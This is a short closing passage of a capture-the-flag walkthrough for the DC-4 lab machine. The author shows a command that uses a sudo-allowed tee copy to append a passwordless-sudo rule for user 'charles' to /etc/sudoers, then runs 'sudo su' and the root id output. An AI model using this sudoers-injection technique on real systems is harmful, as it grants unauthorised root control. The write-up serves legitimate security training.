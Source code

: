 Great, tee. I can think at list in a couple files that I can edit to do the privilege escalation. Let's go easy and make us sudo masters ^^  
  
charles@dc-4:/home/jim$ echo "charles ALL=(ALL) NOPASSWD:ALL" | sudo /usr/bin/teehee -a /etc/sudoers  
>charles ALL=(ALL) NOPASSWD:ALL  
  
charles@dc-4:/home/jim$ sudo su  
root@dc-4:/home/jim# id  
>uid=0(root) gid=0(root) groups=0(root)  
  
  
Well, we did it. Big thanks to @DCAU7 for creating these machines. Great work! I'll be waiting for the next one :)
